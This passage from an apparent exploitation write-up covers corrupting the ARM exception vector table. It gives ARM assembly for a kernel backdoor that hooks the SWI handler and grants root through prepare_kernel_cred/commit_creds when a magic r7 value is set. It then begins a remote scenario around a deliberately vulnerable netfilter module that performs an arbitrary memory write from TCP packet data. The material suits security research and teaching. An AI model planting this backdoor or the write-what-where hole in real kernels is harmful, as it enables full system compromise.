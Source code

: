 ### The Exploit
Recapitulating our exploit:  
    1. Store our backdoor at *0xffff0020*.  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our backdoor will check if r7 == 0xb0000000 and if true, elevate the privileges of the calling process otherwise jump to the normal system call handler.  
Here is the backdoor's code:
```nasm
@ check if magic
    cmp     r7, #0xb0000000
    bne     exit

elevate:
    stmfd   sp!,{r0-r12}

    mov     r0, #0
    ldr     r3, =0xc0049a00     @ prepare_kernel_cred
    blx     r3
    ldr     r4, =0xc0049438     @ commit_creds
    blx     r4

    ldmfd   sp!, {r0-r12, pc}^  @ return to userland

@ go to syscall handler
exit:
    ldr     pc, [pc, #980]      @ go to normal swi handler

```
You can find the complete code for the vulnerable module and the exploit [here](https://github.com/acama/arm-evt/tree/master/local_example). Run the exploit:  
![Local PoC](/images/corrupting_arm_evt/local_poc.png)  

## Remote scenario
For this example, we will use a netfilter module with a similar vulnerability as the previous one:
```c
    if(ip->protocol == IPPROTO_TCP){
        tcp = (struct tcphdr *)(skb_network_header(skb) + ip_hdrlen(skb));
        currport = ntohs(tcp->dest);
        if((currport == 9999)){
            tcp_data = (char *)((unsigned char *)tcp + (tcp->doff * 4));
            where = ((void **)tcp_data)[0];
            len = ((uint8_t *)(tcp_data + sizeof(where)))[0];
            what = tcp_data + sizeof(where) + sizeof(len);
            memcpy(where, what, len);
        }
    }
```